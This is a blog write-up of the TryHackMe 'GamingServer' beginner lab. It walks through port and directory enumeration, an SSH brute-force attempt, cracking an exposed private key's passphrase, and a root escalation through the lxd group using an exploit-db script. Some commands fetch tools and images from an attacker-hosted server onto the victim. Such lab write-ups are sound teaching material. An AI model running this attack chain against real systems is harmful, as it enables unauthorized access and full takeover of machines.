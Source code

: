 ```yaml
---
permalink: /GamingWriteup.html
---
```

*[Back To Main Page](https://exhalior.github.io)*
![thumbnail](https://i.imgur.com/lZRim5g.jpg = 100x100)

## Tryhackme Gaming Server Writeup.

This writeup is on the [Tryhackme GamingServer](https://tryhackme.com/room/gamingserver) machine.
It is an easy level machine, and is described as: > An Easy Boot2Root box for beginners

This is how I got both flags.

## Enumerating.

First, I started off with a simple nmap scan.

```nmap -sC -sV -v -oA gamingserver *machine_ip*```

This showed me that there were two ports open on the machine, port 22 for *SSH* and port 80 for *HTTP*

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Since there was a webpage, I directed my attention there first. 
Simply checking the source of the websites index page showed a comment at the bottom referring to a user named *john*
I ran hydra in the background to attempt to bruteforce his password, but nothing came up.

```hydra -l john -P *path to wordlist* *machine_ip* ssh```

Running gobuster using the common.txt wordlist from dirb revealed a /secret directory and an /uploads directory.
The /secret directory seemed out of place, so I checked there first.

![Secret Page](https://i.imgur.com/FYrdjNd.png)

In the /secret index there was a single file named *"SecretKey"* and opening it revealed a private ssh key.
I copied it to my folder and gave it the right permissions.

```chmod 600 SecretKey```

Under the folder /uploads there were a few files and a wordlist which I assumed would be for bruteforcing something. So I saved it to my machine.

![wordlist](https://i.imgur.com/BoiE8ui.png)

Simply ssh'ing into the machine under *John* prompted us with a password for the ssh key. No problem.
John the ripper should be good enough for this job!
First i used ssh2john to format the key into something john the ripper can read.

```/usr/share/john/ssh2john.py SecretKey > keyhash```

Next, I ran the wordlist I found earlier in the uploads directory on the hash.

```john keyhash -w=dict.lst```

Boom! Found it!

![password](https://i.imgur.com/gvMwN2e.png)

## Getting User.txt

Now I have a way to access the machine, we can use ssh to log in as the *John* user.

```ssh -i SecretKey john@machine_ip```

When prompted for a passphrase, we enter the one found by john the ripper earlier.

Now all we have to do is *ls* and we have the user.txt

![lstouser](https://i.imgur.com/QWbXKr5.png)

## Privesc to Root.txt

This one stumped me for a second, I haven't heard of this privesc until now,
so finding it was more tedious than it should've.

Let's run linpeas on the machine to find any privesc vectors.
First, we create a python server in the folder where we have our [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script stored.

```*ATTACKER MACHINE* sudo python3 -m http.server```

Then we download the script on the victim machine

```*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh
```
From there it's as simple as running chmod and executing the script.

```
chmod +x linpeas.sh
./linpeas.sh
```

Once linpeas is finished, we need to find anything red, or highlighted. Highlighted items are 99% of the time privesc vectors, and red items are ones that should
be checked out if none of the highlighted items work.
Here, we can see that root and lxd are highlighted.

![linpeasr](https://i.imgur.com/ZcRVxi2.png)

Initially I thought it would be as simple as running *sudo su* and gaining root privs, but that just led me down a rabbit hole of scouring the machine for johns
real credentials.
After a while, I realised that the lxc item was the privesc vector I was supposed to be focusing on, so after a bit of googling I found [This Privesc](https://www.exploit-db.com/exploits/46978) on exploit-db
To use this privesc, we must first download a build script on our attacker machine and make a tar.gz file to be uploaded to the victim machine.
This is done with:

```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine```

After that, we compile/build it with:

```sudo bash build-alpine```

After running this commmand, we should have an alpine.tar.gz in our attacker directory. This will be uploaded to the victim machine.
As before with linpeas, we must start a python server on our attacker machine.

```*ATTACKER MACHINE* sudo python3 -m http.server```

And upload it to the victim.

```*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20200831_1414.tar.gz```

The exploit then requires that we run a script to complete the privesc, it's on the exploit-db page linked above.
What I did was create an sh script with:

```nano exploit.sh``` 

And copy paste the script from the exploit-db page to the script on the victims machine, and then chmod +x the script to make it executable.

```chmod +x exploit.sh```

Once we run the script, we should achieve the privesc and become root.

```./exploit.sh -f alpine-v3.12-x86_64-20200831_1414.tar.gz```

Boom! We have achieved root privileges!!

![root](https://i.imgur.com/blIf2iY.png)

Once we cd to /mnt/root/root we can *ls* and find our sweet, sweet, root.txt

![rootxt](https://i.imgur.com/uEVyjAm.png)

## Thank you for reading!

This was a fun machine, thank you to the creator and thank you to YOU! for reading my writeup.
Until next time. :)
Stay sane.



